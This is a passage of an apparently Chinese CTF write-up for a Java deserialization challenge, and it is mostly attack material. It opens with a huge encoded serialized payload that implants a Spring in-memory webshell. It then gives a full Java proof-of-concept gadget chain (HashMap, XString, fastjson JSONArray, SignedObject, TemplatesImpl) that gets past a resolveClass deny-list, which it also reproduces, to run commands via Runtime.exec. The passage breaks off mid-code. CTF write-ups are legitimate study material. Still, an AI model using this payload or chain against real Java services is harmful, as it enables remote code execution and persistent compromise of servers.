%4a%68%62%57%56%33%62%33%4a%72%4c%33%64%6c%59%69%39%7a%5a%58%4a%32%62%47%56%30%4c%32%31%32%59%79%39%74%5a%58%52%6f%62%32%51%76%55%6d%56%78%64%57%56%7a%64%45%31%68%63%48%42%70%62%6d%64%4a%62%6d%5a%76%4a%45%4a%31%61%57%78%6b%5a%58%4a%44%62%32%35%6d%61%57%64%31%63%6d%46%30%61%57%39%75%41%51%41%57%62%33%4a%6e%4c%33%4e%6f%64%53%39%54%63%48%4a%70%62%6d%64%4e%5a%57%31%54%61%47%56%73%62%41%45%41%44%32%70%68%64%6d%45%76%62%47%46%75%5a%79%39%44%62%47%46%7a%63%77%45%41%4a%57%70%68%64%6d%46%34%4c%33%4e%6c%63%6e%5a%73%5a%58%51%76%61%48%52%30%63%43%39%49%64%48%52%77%55%32%56%79%64%6d%78%6c%64%46%4a%6c%63%58%56%6c%63%33%51%42%41%43%5a%71%59%58%5a%68%65%43%39%7a%5a%58%4a%32%62%47%56%30%4c%32%68%30%64%48%41%76%53%48%52%30%63%46%4e%6c%63%6e%5a%73%5a%58%52%53%5a%58%4e%77%62%32%35%7a%5a%51%77%41%36%77%44%73%41%51%42%4d%62%33%4a%6e%4c%33%4e%77%63%6d%6c%75%5a%32%5a%79%59%57%31%6c%64%32%39%79%61%79%39%33%5a%57%49%76%63%32%56%79%64%6d%78%6c%64%43%39%74%64%6d%4d%76%59%32%39%75%5a%47%6c%30%61%57%39%75%4c%31%4a%6c%63%58%56%6c%63%33%52%4e%5a%58%52%6f%62%32%52%7a%55%6d%56%78%64%57%56%7a%64%45%4e%76%62%6d%52%70%64%47%6c%76%62%67%45%41%4e%57%39%79%5a%79%39%7a%63%48%4a%70%62%6d%64%6d%63%6d%46%74%5a%58%64%76%63%6d%73%76%64%32%56%69%4c%32%4a%70%62%6d%51%76%59%57%35%75%62%33%52%68%64%47%6c%76%62%69%39%53%5a%58%46%31%5a%58%4e%30%54%57%56%30%61%47%39%6b%44%41%41%34%41%4f%30%42%41%41%59%76%63%32%68%6c%62%47%77%4d%41%4f%34%41%38%41%63%41%38%51%77%41%38%67%44%7a%44%41%44%30%41%50%55%4d%41%50%59%41%39%77%45%41%45%32%70%68%64%6d%45%76%62%47%46%75%5a%79%39%46%65%47%4e%6c%63%48%52%70%62%32%34%42%41%45%42%6a%62%32%30%76%63%33%56%75%4c%32%39%79%5a%79%39%68%63%47%46%6a%61%47%55%76%65%47%46%73%59%57%34%76%61%57%35%30%5a%58%4a%75%59%57%77%76%65%48%4e%73%64%47%4d%76%63%6e%56%75%64%47%6c%74%5a%53%39%42%59%6e%4e%30%63%6d%46%6a%64%46%52%79%59%57%35%7a%62%47%56%30%41%51%41%54%61%6d%46%32%59%53%39%70%62%79%39%4a%62%6e%42%31%64%46%4e%30%63%6d%56%68%62%51%45%41%45%32%70%68%64%6d%45%76%61%57%38%76%53%55%39%46%65%47%4e%6c%63%48%52%70%62%32%34%42%41%44%6c%6a%62%32%30%76%63%33%56%75%4c%32%39%79%5a%79%39%68%63%47%46%6a%61%47%55%76%65%47%46%73%59%57%34%76%61%57%35%30%5a%58%4a%75%59%57%77%76%65%48%4e%73%64%47%4d%76%56%48%4a%68%62%6e%4e%73%5a%58%52%46%65%47%4e%6c%63%48%52%70%62%32%34%42%41%41%78%6e%5a%58%52%51%59%58%4a%68%62%57%56%30%5a%58%49%42%41%43%59%6f%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%54%64%48%4a%70%62%6d%63%37%4b%55%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%79%61%57%35%6e%4f%77%45%41%45%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%54%65%58%4e%30%5a%57%30%42%41%41%74%6e%5a%58%52%51%63%6d%39%77%5a%58%4a%30%65%51%45%41%43%33%52%76%54%47%39%33%5a%58%4a%44%59%58%4e%6c%41%51%41%55%4b%43%6c%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%73%42%41%41%68%6a%62%32%35%30%59%57%6c%75%63%77%45%41%47%79%68%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%30%4e%6f%59%58%4a%54%5a%58%46%31%5a%57%35%6a%5a%54%73%70%57%67%45%41%45%57%70%68%64%6d%45%76%62%47%46%75%5a%79%39%53%64%57%35%30%61%57%31%6c%41%51%41%4b%5a%32%56%30%55%6e%56%75%64%47%6c%74%5a%51%45%41%46%53%67%70%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%53%64%57%35%30%61%57%31%6c%4f%77%45%41%42%47%56%34%5a%57%4d%42%41%43%67%6f%57%30%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%79%61%57%35%6e%4f%79%6c%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%42%79%62%32%4e%6c%63%33%4d%37%41%51%41%52%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%42%79%62%32%4e%6c%63%33%4d%42%41%41%35%6e%5a%58%52%4a%62%6e%42%31%64%46%4e%30%63%6d%56%68%62%51%45%41%46%79%67%70%54%47%70%68%64%6d%45%76%61%57%38%76%53%57%35%77%64%58%52%54%64%48%4a%6c%59%57%30%37%41%51%41%59%4b%45%78%71%59%58%5a%68%4c%32%6c%76%4c%30%6c%75%63%48%56%30%55%33%52%79%5a%57%46%74%4f%79%6c%57%41%51%41%4d%64%58%4e%6c%52%47%56%73%61%57%31%70%64%47%56%79%41%51%41%6e%4b%45%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%79%61%57%35%6e%4f%79%6c%4d%61%6d%46%32%59%53%39%31%64%47%6c%73%4c%31%4e%6a%59%57%35%75%5a%58%49%37%41%51%41%48%61%47%46%7a%54%6d%56%34%64%41%45%41%41%79%67%70%57%67%45%41%42%47%35%6c%65%48%51%42%41%41%6c%6e%5a%58%52%58%63%6d%6c%30%5a%58%49%42%41%42%63%6f%4b%55%78%71%59%58%5a%68%4c%32%6c%76%4c%31%42%79%61%57%35%30%56%33%4a%70%64%47%56%79%4f%77%45%41%45%32%70%68%64%6d%45%76%61%57%38%76%55%48%4a%70%62%6e%52%58%63%6d%6c%30%5a%58%49%42%41%41%56%33%63%6d%6c%30%5a%51%45%41%46%53%68%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%73%70%56%67%45%41%42%57%5a%73%64%58%4e%6f%41%51%41%38%62%33%4a%6e%4c%33%4e%77%63%6d%6c%75%5a%32%5a%79%59%57%31%6c%64%32%39%79%61%79%39%33%5a%57%49%76%59%32%39%75%64%47%56%34%64%43%39%79%5a%58%46%31%5a%58%4e%30%4c%31%4a%6c%63%58%56%6c%63%33%52%44%62%32%35%30%5a%58%68%30%53%47%39%73%5a%47%56%79%41%51%41%59%59%33%56%79%63%6d%56%75%64%46%4a%6c%63%58%56%6c%63%33%52%42%64%48%52%79%61%57%4a%31%64%47%56%7a%41%51%41%39%4b%43%6c%4d%62%33%4a%6e%4c%33%4e%77%63%6d%6c%75%5a%32%5a%79%59%57%31%6c%64%32%39%79%61%79%39%33%5a%57%49%76%59%32%39%75%64%47%56%34%64%43%39%79%5a%58%46%31%5a%58%4e%30%4c%31%4a%6c%63%58%56%6c%63%33%52%42%64%48%52%79%61%57%4a%31%64%47%56%7a%4f%77%45%41%4f%57%39%79%5a%79%39%7a%63%48%4a%70%62%6d%64%6d%63%6d%46%74%5a%58%64%76%63%6d%73%76%64%32%56%69%4c%32%4e%76%62%6e%52%6c%65%48%51%76%63%6d%56%78%64%57%56%7a%64%43%39%53%5a%58%46%31%5a%58%4e%30%51%58%52%30%63%6d%6c%69%64%58%52%6c%63%77%45%41%44%47%64%6c%64%45%46%30%64%48%4a%70%59%6e%56%30%5a%51%45%41%4a%79%68%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%74%4a%4b%55%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%54%32%4a%71%5a%57%4e%30%4f%77%45%41%42%32%64%6c%64%45%4a%6c%59%57%34%42%41%43%55%6f%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%44%62%47%46%7a%63%7a%73%70%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%50%59%6d%70%6c%59%33%51%37%41%51%41%51%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%30%39%69%61%6d%56%6a%64%41%45%41%43%47%64%6c%64%45%4e%73%59%58%4e%7a%41%51%41%54%4b%43%6c%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%30%4e%73%59%58%4e%7a%4f%77%45%41%45%47%64%6c%64%45%52%6c%59%32%78%68%63%6d%56%6b%52%6d%6c%6c%62%47%51%42%41%43%30%6f%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%54%64%48%4a%70%62%6d%63%37%4b%55%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%63%6d%56%6d%62%47%56%6a%64%43%39%47%61%57%56%73%5a%44%73%42%41%42%64%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%63%6d%56%6d%62%47%56%6a%64%43%39%47%61%57%56%73%5a%41%45%41%44%58%4e%6c%64%45%46%6a%59%32%56%7a%63%32%6c%69%62%47%55%42%41%41%51%6f%57%69%6c%57%41%51%41%44%5a%32%56%30%41%51%41%6d%4b%45%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%54%32%4a%71%5a%57%4e%30%4f%79%6c%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%30%39%69%61%6d%56%6a%64%44%73%42%41%44%31%76%63%6d%63%76%63%33%42%79%61%57%35%6e%5a%6e%4a%68%62%57%56%33%62%33%4a%72%4c%33%64%6c%59%69%39%7a%5a%58%4a%32%62%47%56%30%4c%32%31%32%59%79%39%74%5a%58%52%6f%62%32%51%76%55%6d%56%78%64%57%56%7a%64%45%31%68%63%48%42%70%62%6d%64%4a%62%6d%5a%76%41%51%41%4a%5a%32%56%30%54%57%56%30%61%47%39%6b%41%51%42%41%4b%45%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%79%61%57%35%6e%4f%31%74%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%30%4e%73%59%58%4e%7a%4f%79%6c%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%33%4a%6c%5a%6d%78%6c%59%33%51%76%54%57%56%30%61%47%39%6b%4f%77%45%41%4f%79%68%62%54%47%39%79%5a%79%39%7a%63%48%4a%70%62%6d%64%6d%63%6d%46%74%5a%58%64%76%63%6d%73%76%64%32%56%69%4c%32%4a%70%62%6d%51%76%59%57%35%75%62%33%52%68%64%47%6c%76%62%69%39%53%5a%58%46%31%5a%58%4e%30%54%57%56%30%61%47%39%6b%4f%79%6c%57%41%51%41%46%63%47%46%30%61%48%4d%42%41%41%64%43%64%57%6c%73%5a%47%56%79%41%51%42%63%4b%46%74%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%73%70%54%47%39%79%5a%79%39%7a%63%48%4a%70%62%6d%64%6d%63%6d%46%74%5a%58%64%76%63%6d%73%76%64%32%56%69%4c%33%4e%6c%63%6e%5a%73%5a%58%51%76%62%58%5a%6a%4c%32%31%6c%64%47%68%76%5a%43%39%53%5a%58%46%31%5a%58%4e%30%54%57%46%77%63%47%6c%75%5a%30%6c%75%5a%6d%38%6b%51%6e%56%70%62%47%52%6c%63%6a%73%42%41%45%56%76%63%6d%63%76%63%33%42%79%61%57%35%6e%5a%6e%4a%68%62%57%56%33%62%33%4a%72%4c%33%64%6c%59%69%39%7a%5a%58%4a%32%62%47%56%30%4c%32%31%32%59%79%39%74%5a%58%52%6f%62%32%51%76%55%6d%56%78%64%57%56%7a%64%45%31%68%63%48%42%70%62%6d%64%4a%62%6d%5a%76%4a%45%4a%31%61%57%78%6b%5a%58%49%42%41%41%64%76%63%48%52%70%62%32%35%7a%41%51%43%64%4b%45%78%76%63%6d%63%76%63%33%42%79%61%57%35%6e%5a%6e%4a%68%62%57%56%33%62%33%4a%72%4c%33%64%6c%59%69%39%7a%5a%58%4a%32%62%47%56%30%4c%32%31%32%59%79%39%74%5a%58%52%6f%62%32%51%76%55%6d%56%78%64%57%56%7a%64%45%31%68%63%48%42%70%62%6d%64%4a%62%6d%5a%76%4a%45%4a%31%61%57%78%6b%5a%58%4a%44%62%32%35%6d%61%57%64%31%63%6d%46%30%61%57%39%75%4f%79%6c%4d%62%33%4a%6e%4c%33%4e%77%63%6d%6c%75%5a%32%5a%79%59%57%31%6c%64%32%39%79%61%79%39%33%5a%57%49%76%63%32%56%79%64%6d%78%6c%64%43%39%74%64%6d%4d%76%62%57%56%30%61%47%39%6b%4c%31%4a%6c%63%58%56%6c%63%33%52%4e%59%58%42%77%61%57%35%6e%53%57%35%6d%62%79%52%43%64%57%6c%73%5a%47%56%79%4f%77%45%41%42%57%4a%31%61%57%78%6b%41%51%42%42%4b%43%6c%4d%62%33%4a%6e%4c%33%4e%77%63%6d%6c%75%5a%32%5a%79%59%57%31%6c%64%32%39%79%61%79%39%33%5a%57%49%76%63%32%56%79%64%6d%78%6c%64%43%39%74%64%6d%4d%76%62%57%56%30%61%47%39%6b%4c%31%4a%6c%63%58%56%6c%63%33%52%4e%59%58%42%77%61%57%35%6e%53%57%35%6d%62%7a%73%42%41%41%39%79%5a%57%64%70%63%33%52%6c%63%6b%31%68%63%48%42%70%62%6d%63%42%41%47%34%6f%54%47%39%79%5a%79%39%7a%63%48%4a%70%62%6d%64%6d%63%6d%46%74%5a%58%64%76%63%6d%73%76%64%32%56%69%4c%33%4e%6c%63%6e%5a%73%5a%58%51%76%62%58%5a%6a%4c%32%31%6c%64%47%68%76%5a%43%39%53%5a%58%46%31%5a%58%4e%30%54%57%46%77%63%47%6c%75%5a%30%6c%75%5a%6d%38%37%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%50%59%6d%70%6c%59%33%51%37%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%79%5a%57%5a%73%5a%57%4e%30%4c%30%31%6c%64%47%68%76%5a%44%73%70%56%67%41%68%41%43%63%41%4e%77%41%41%41%41%41%41%42%51%41%42%41%44%67%41%4f%51%41%42%41%44%6f%41%41%41%41%76%41%41%45%41%41%51%41%41%41%41%55%71%74%77%41%42%73%51%41%41%41%41%49%41%4f%77%41%41%41%41%59%41%41%51%41%41%41%42%55%41%50%41%41%41%41%41%77%41%41%51%41%41%41%41%55%41%50%51%41%2b%41%41%41%41%41%51%41%2f%41%45%41%41%41%67%41%36%41%41%41%42%67%77%41%46%41%41%6b%41%41%41%43%70%4b%78%49%43%75%51%41%44%41%67%44%47%41%4b%41%45%50%68%49%45%75%41%41%46%4f%67%51%5a%42%4d%59%41%45%68%6b%45%74%67%41%47%45%67%65%32%41%41%69%5a%41%41%55%44%50%68%32%5a%41%42%38%47%76%51%41%4a%57%51%4d%53%43%6c%4e%5a%42%42%49%4c%55%31%6b%46%4b%78%49%43%75%51%41%44%41%67%42%54%70%77%41%63%42%72%30%41%43%56%6b%44%45%67%78%54%57%51%51%53%44%56%4e%5a%42%53%73%53%41%72%6b%41%41%77%49%41%55%7a%6f%46%75%41%41%4f%47%51%57%32%41%41%2b%32%41%42%41%36%42%72%73%41%45%56%6b%5a%42%72%63%41%45%68%49%54%74%67%41%55%4f%67%63%5a%42%37%59%41%46%5a%6b%41%43%78%6b%48%74%67%41%57%70%77%41%46%45%68%63%36%43%43%79%35%41%42%67%42%41%42%6b%49%74%67%41%5a%4c%4c%6b%41%47%41%45%41%74%67%41%61%73%51%41%41%41%41%4d%41%4f%77%41%41%41%44%49%41%44%41%41%41%41%43%77%41%43%77%41%74%41%41%30%41%4c%67%41%55%41%43%38%41%4a%67%41%77%41%43%67%41%4d%67%42%6a%41%44%4d%41%63%41%41%30%41%49%41%41%4e%51%43%55%41%44%59%41%6e%77%41%33%41%4b%67%41%4f%51%41%38%41%41%41%41%58%41%41%4a%41%41%30%41%6d%77%42%42%41%45%49%41%41%77%41%55%41%4a%51%41%51%77%42%45%41%41%51%41%59%77%42%46%41%45%55%41%52%67%41%46%41%48%41%41%4f%41%42%48%41%45%67%41%42%67%43%41%41%43%67%41%53%51%42%4b%41%41%63%41%6c%41%41%55%41%45%73%41%52%41%41%49%41%41%41%41%71%51%41%39%41%44%34%41%41%41%41%41%41%4b%6b%41%54%41%42%4e%41%41%45%41%41%41%43%70%41%45%34%41%54%77%41%43%41%46%41%41%41%41%41%75%41%41%62%39%41%43%67%42%42%77%42%52%48%31%67%48%41%46%4c%2b%41%43%34%48%41%46%49%48%41%46%4d%48%41%46%52%42%42%77%42%52%2f%77%41%56%41%41%4d%48%41%46%55%48%41%46%59%48%41%46%63%41%41%41%42%59%41%41%41%41%42%41%41%42%41%46%6b%41%41%51%42%61%41%46%73%41%41%67%41%36%41%41%41%41%50%77%41%41%41%41%4d%41%41%41%41%42%73%51%41%41%41%41%49%41%4f%77%41%41%41%41%59%41%41%51%41%41%41%44%34%41%50%41%41%41%41%43%41%41%41%77%41%41%41%41%45%41%50%51%41%2b%41%41%41%41%41%41%41%42%41%46%77%41%58%51%41%42%41%41%41%41%41%51%42%65%41%46%38%41%41%67%42%59%41%41%41%41%42%41%41%42%41%47%41%41%41%51%42%61%41%47%45%41%41%67%41%36%41%41%41%41%53%51%41%41%41%41%51%41%41%41%41%42%73%51%41%41%41%41%49%41%4f%77%41%41%41%41%59%41%41%51%41%41%41%45%4d%41%50%41%41%41%41%43%6f%41%42%41%41%41%41%41%45%41%50%51%41%2b%41%41%41%41%41%41%41%42%41%46%77%41%58%51%41%42%41%41%41%41%41%51%42%69%41%47%4d%41%41%67%41%41%41%41%45%41%5a%41%42%6c%41%41%4d%41%57%41%41%41%41%41%51%41%41%51%42%67%41%41%67%41%5a%67%41%35%41%41%45%41%4f%67%41%41%41%55%73%41%42%67%41%49%41%41%41%41%69%4c%67%41%47%78%49%63%41%37%6b%41%48%51%4d%41%77%41%41%65%53%79%6f%53%48%37%6b%41%49%41%49%41%77%41%41%66%54%43%75%32%41%43%45%53%49%72%59%41%49%30%30%73%42%4c%59%41%4a%43%77%72%74%67%41%6c%77%41%41%6d%54%68%49%6e%45%69%67%46%76%51%41%70%57%51%4d%53%4b%6c%4e%5a%42%42%49%72%55%37%59%41%4c%44%6f%45%75%77%41%74%57%51%4f%39%41%43%36%33%41%43%38%36%42%51%53%39%41%41%6c%5a%41%78%49%77%55%37%67%41%4d%53%32%35%41%44%49%43%41%4c%6b%41%4d%77%45%41%4f%67%61%37%41%43%64%5a%74%77%41%30%4f%67%63%72%47%51%59%5a%42%78%6b%45%74%67%41%31%70%77%41%45%53%37%45%41%41%51%41%41%41%49%4d%41%68%67%41%32%41%41%4d%41%4f%77%41%41%41%45%49%41%45%41%41%41%41%42%67%41%44%77%41%5a%41%42%73%41%47%67%41%6c%41%42%73%41%4b%67%41%63%41%43%77%41%48%51%41%7a%41%42%34%41%53%67%41%66%41%46%63%41%49%41%42%6b%41%43%45%41%61%51%41%69%41%48%41%41%49%77%42%35%41%43%51%41%67%77%41%6f%41%49%59%41%4a%67%43%48%41%43%6b%41%50%41%41%41%41%46%49%41%43%41%41%50%41%48%51%41%5a%77%42%6f%41%41%41%41%47%77%42%6f%41%47%6b%41%61%67%41%42%41%43%55%41%58%67%42%72%41%47%77%41%41%67%41%7a%41%46%41%41%62%51%42%77%41%41%4d%41%53%67%41%35%41%48%45%41%63%67%41%45%41%46%63%41%4c%41%42%7a%41%48%51%41%42%51%42%77%41%42%4d%41%64%51%42%32%41%41%59%41%65%51%41%4b%41%48%63%41%50%67%41%48%41%46%41%41%41%41%41%4a%41%41%4c%33%41%49%59%48%41%48%67%41%41%41%49%41%65%51%41%41%41%41%49%41%65%67%42%76%41%41%41%41%45%67%41%43%41%43%59%41%70%77%42%75%41%41%6b%41%73%77%43%6e%41%4f%38%47%43%58%42%30%41%41%45%78%63%48%63%42%41%48%68%31%63%51%42%2b%41%41%59%41%41%41%41%75%4d%43%77%43%46%45%73%65%42%57%68%6c%56%38%6e%45%35%63%4e%4e%68%2b%36%4f%74%63%6e%78%76%34%62%4a%41%68%51%50%4b%75%4c%2f%44%4b%62%79%63%71%78%48%49%30%6d%30%2b%32%52%30%65%4f%6a%4d%70%58%51%41%41%30%52%54%51%58%4e%79%41%43%4e%71%59%58%5a%68%65%43%35%7a%64%32%6c%75%5a%79%35%6c%64%6d%56%75%64%43%35%46%64%6d%56%75%64%45%78%70%63%33%52%6c%62%6d%56%79%54%47%6c%7a%64%4c%45%32%78%6e%32%45%36%74%5a%45%41%77%41%41%65%48%42%30%41%42%64%71%59%58%5a%68%4c%6d%78%68%62%6d%63%75%53%57%35%30%5a%58%4a%75%59%57%78%46%63%6e%4a%76%63%6e%4e%79%41%42%78%71%59%58%5a%68%65%43%35%7a%64%32%6c%75%5a%79%35%31%62%6d%52%76%4c%6c%56%75%5a%47%39%4e%59%57%35%68%5a%32%56%79%34%79%73%68%65%55%78%78%79%6b%49%43%41%41%4a%4a%41%41%35%70%62%6d%52%6c%65%45%39%6d%54%6d%56%34%64%45%46%6b%5a%45%6b%41%42%57%78%70%62%57%6c%30%65%48%49%41%48%57%70%68%64%6d%46%34%4c%6e%4e%33%61%57%35%6e%4c%6e%56%75%5a%47%38%75%51%32%39%74%63%47%39%31%62%6d%52%46%5a%47%6c%30%70%5a%35%51%75%6c%50%62%6c%66%30%43%41%41%4a%61%41%41%70%70%62%6c%42%79%62%32%64%79%5a%58%4e%7a%54%41%41%46%5a%57%52%70%64%48%4e%30%41%42%4a%4d%61%6d%46%32%59%53%39%31%64%47%6c%73%4c%31%5a%6c%59%33%52%76%63%6a%74%34%63%67%41%6c%61%6d%46%32%59%58%67%75%63%33%64%70%62%6d%63%75%64%57%35%6b%62%79%35%42%59%6e%4e%30%63%6d%46%6a%64%46%56%75%5a%47%39%68%59%6d%78%6c%52%57%52%70%64%41%67%4e%47%34%37%74%41%67%73%51%41%67%41%43%57%67%41%46%59%57%78%70%64%6d%56%61%41%41%74%6f%59%58%4e%43%5a%57%56%75%52%47%39%75%5a%58%68%77%41%51%45%42%63%33%49%41%45%47%70%68%64%6d%45%75%64%58%52%70%62%43%35%57%5a%57%4e%30%62%33%4c%5a%6c%33%31%62%67%44%75%76%41%51%4d%41%41%30%6b%41%45%57%4e%68%63%47%46%6a%61%58%52%35%53%57%35%6a%63%6d%56%74%5a%57%35%30%53%51%41%4d%5a%57%78%6c%62%57%56%75%64%45%4e%76%64%57%35%30%57%77%41%4c%5a%57%78%6c%62%57%56%75%64%45%52%68%64%47%46%30%41%42%4e%62%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%50%59%6d%70%6c%59%33%51%37%65%48%41%41%41%41%41%41%41%41%41%41%41%58%56%79%41%42%4e%62%54%47%70%68%64%6d%45%75%62%47%46%75%5a%79%35%50%59%6d%70%6c%59%33%51%37%6b%4d%35%59%6e%78%42%7a%4b%57%77%43%41%41%42%34%63%41%41%41%41%47%52%7a%63%67%41%65%59%32%39%74%4c%6d%46%73%61%57%4a%68%59%6d%45%75%5a%6d%46%7a%64%47%70%7a%62%32%34%75%53%6c%4e%50%54%6b%46%79%63%6d%46%35%41%41%41%41%41%41%41%41%41%41%45%43%41%41%46%4d%41%41%52%73%61%58%4e%30%64%41%41%51%54%47%70%68%64%6d%45%76%64%58%52%70%62%43%39%4d%61%58%4e%30%4f%33%68%77%63%33%49%41%45%32%70%68%64%6d%45%75%64%58%52%70%62%43%35%42%63%6e%4a%68%65%55%78%70%63%33%52%34%67%64%49%64%6d%63%64%68%6e%51%4d%41%41%55%6b%41%42%48%4e%70%65%6d%56%34%63%41%41%41%41%41%46%33%42%41%41%41%41%41%46%78%41%48%34%41%42%58%68%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%34%41%41%41%41%41%41%41%41%41%47%52%77%65%48%67%3d
```

发包之后



得到flag



## other gadget

### 1、Xtring利用链绕过

Hashmap#readobject触发equal的链子，然后XString#equal触发JSON的toString方法也可以

```
* 绕过第一次的BadAttributeValueExpException黑名单检查
    Hashmap#readobject --> 
    XString#equals -> toString
    JSONArray#toString
    SignedObject#getObject
* 二次反序列化绕过TemplatesImpl黑名单检查
    * 引用绕过JSON自带resolveClass的黑名单检查
        BadAttributeValueExpException#readObject
        JSONArray#toString
        TemplatesImpl#getOutputProperties
            TemplatesImpl#newTransformer
            TemplatesImpl#getTransletInstance
            TemplatesImpl#defineTransletClasses
            TemplatesImpl#defineClass
```

poc

```
/**
 * @className Poc2
 * @Author shushu
 * @Data 2025/2/9
 **/
package org.shu.vnctf;


import com.alibaba.fastjson.JSONArray;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.CtMethod;
import org.shu.SpringMemShell;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.security.*;
import java.util.*;

import static org.shu.Poc.getFieldValue;

public class Poc2 {
    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        String sh ="Runtime.getRuntime().exec("" + cmd + "");";
        System.out.println(sh);
        constructor.setBody(sh);
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{
        //TemplatesImpl#getOutputProperties
//        byte[] bytes = Repository.lookupClass(SpringMemShell.class).getBytes();
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("calc")});
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);
        //JSONArray#toString
        JSONArray jsonArray2 = new JSONArray();
        jsonArray2.add(templates);
        //BadAttributeValueExpException#readObject
        BadAttributeValueExpException bd2 = new BadAttributeValueExpException(null);
        setValue(bd2,"val",jsonArray2);
        //二次反序列化
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(templates, kp.getPrivate(), Signature.getInstance("DSA"));
        //JSONArray#toString
        JSONArray jsonArray1 = new JSONArray();
        jsonArray1.add(signedObject);
        List<Object> arrays = new ArrayList<>();
//        arrays.add(signedObject);
//        JSONArray jsonArray = new JSONArray();
//        jsonArray.add(signedObject);
        arrays.add(getXString(jsonArray1));

        Map<String, Object> map = new HashMap<>();
        map.put("yy", arrays);

        byte[] serialize = serialize(map);

        String payload = Base64.getEncoder().encodeToString(serialize);
        System.out.println(payload);
        deserialize(payload);

    }
    public static HashMap getXString(Object obj) throws Exception{

        XString xstring=new XString("");
        HashMap hashMap1 = new HashMap();
        HashMap hashMap2 = new HashMap();

        hashMap1.put("yy",xstring);
        hashMap1.put("zZ",obj);

        hashMap2.put("zZ",xstring);
        hashMap2.put("yy",obj);

        HashMap hashMap = new HashMap();
        hashMap.put(hashMap1, 1);
        hashMap.put(hashMap2, 2);

        return hashMap;
    }
    public static Object makeTemplatesImplAopProxy(Templates templates) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templates);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }
    static Object deserialize(String data) throws Exception {
        return new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(data))) { // from class: com.example.demo.DemoController.1
            boolean check = false;

            @Override // java.io.ObjectInputStream
            protected Class resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
                Class targetc = super.resolveClass(desc);
                String className = desc.getName();
                String[] denyClasses = { "com.sun.org.apache.xalan.internal.xsltc.trax", "javax.management", "com.fasterxml.jackson" };
                int var5 = denyClasses.length;
                for (String denyClass : denyClasses) {
                    if (className.startsWith(denyClass))
                        throw new InvalidClassException("Unauthorized deserialization attempt", className);
                }
                this.check = true;
                return targetc;
            }
        }.readObject();
